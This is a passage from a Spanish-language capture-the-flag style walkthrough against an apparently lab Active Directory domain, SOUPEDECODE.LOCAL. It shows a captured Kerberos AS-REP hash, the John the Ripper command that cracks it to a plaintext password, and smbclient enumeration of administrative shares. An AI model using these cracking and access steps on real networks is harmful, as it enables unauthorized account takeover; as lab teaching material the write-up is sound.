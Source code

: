 Vemos que hemos obtenido un `hash` del usuario `zximena448` por lo que lo intentaremos `crackear` de la siguiente forma:

### Crackear Hash Kerberos

> hash.kerberos

```
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:955d871845638be17bd37c7ac9ebcc3d$33909b8566042db8e09cbe6d7a4b9d93387556653279f031a414060093349583b95207e7da4ea711b28b82b38744fef76386b7da0871e8b0a6b7a8de362b14089f7e210f13a0eb0db0c6fca063182272d384074dc988c7abffcbcbf139d01689dae5fff277164ebdec864a49ea0c68672d1ec146774fbb4508b46a74ab84a1af057679606a70fa413dc970428bb9a5d94378ed0cb15c41d430b59072c5072bebb050393ecf7c4c5cbd77b60cb9a8bbc3cd9381ac29ae0f62b95636953ebf8b0e7999d7f0b103a3af9f3657be608ee39edfe0d1f97a29937527114dbbe2df945436398ac418282ef167fac745765ebfa0e926cc674b4f
```

```shell
john --wordlist=<WORDLIST> --format=krb5asrep hash.kerberos
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
internet         ($krb5asrep$23$zximena448@SOUPEDECODE.LOCAL)     
1g 0:00:00:00 DONE (2025-04-01 14:47) 12.50g/s 12800p/s 12800c/s 12800C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que la consiguio crackear de forma correcta, por lo que vamos a probarlas en el servidor `SMB`:

```shell
smbclient -L //SOUPEDECODE.LOCAL/ -U zximena448
```

Info:

```
		Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.28.11 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Si probamos a meternos en el recurso compartido `C$` veremos que nos deja:
